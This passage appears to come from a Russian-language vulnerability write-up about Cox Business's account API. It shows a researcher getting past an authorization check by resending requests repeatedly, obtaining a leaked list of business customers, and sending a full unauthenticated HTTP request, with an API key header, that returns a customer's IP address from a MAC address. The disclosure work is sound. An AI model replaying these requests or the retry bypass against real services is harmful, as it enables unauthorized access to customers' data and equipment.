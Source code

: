 После этого он решил добавить в конец запроса test, чтобы поискать что-то с ключевым словом test, но в ответ получил ошибку авторизации, что было довольно странно. Возможно на сервере требует авторизацию только не пустой поиск. Затем он ещё раз отправил запрос с пустым поиском и получил опять ошибку авторизации. Не поняв что вообще происходит, он решил на всякий случай ещё раз отправить пустой поиск и на этот раз получил исходный ответ `200 OK`. Раз уж поведение сервера такое не предсказуемое, то может быть если достаточно много раз отправить не пустой поисковый запрос, то рано или поздно прийдёт положительный ответ. После чего он 2-3 минуты слал поисковый запрос `cox` и получил следующий ответ:

```
{
  "message": "Success",
  "profile": {
    "numberofRecords": "10000+ hits",
    "searchList": [
      {
        "value": "COX REDACTED",
        "profileGuid": "cbbccdae-b1ab-4e8c-9cec-e20c425205a1"
      },
      {
        "value": "Cox Communications SIP Trunk REDACTED",
        "profileGuid": "bc2a49c7-0c3f-4cab-9133-de7993cb1c7d"
      },
      {
        "value": "cox test account ds1/REDACTED",
        "profileGuid": "74551032-e703-46a2-a252-dc75d6daeedc"
      }
    ]
  }
}
```

Это выглядело как настоящий список бизнес пользователей Cox, который был получен простой многократной отправкой запроса на прокси. Теперь можно посмотреть какие ещё из 700 маршрутов можно использовать таким же методом, а именно можно ли таким методом получить доступ к роутеру пользователей. Для начала он нашёл запрос, который требует mac адрес как параметр:

```
GET /api/cbma/accountequipment/services/accountequipment/ipAddress?macAddress=f80c58bbcb90 HTTP/1.1
Host: myaccount-business.cox.com
Clientid: cbmauser
Apikey: 5d228662-aaa1-4a18-be1c-fb84db78cf13
Cb_session: unauthenticateduser
Authorization: Bearer undefined
```

```
HTTP/1.1 200 OK
Content-type: application/json

{
  "message": "Success",
  "ipv4": "98.165.155.8"
}
```
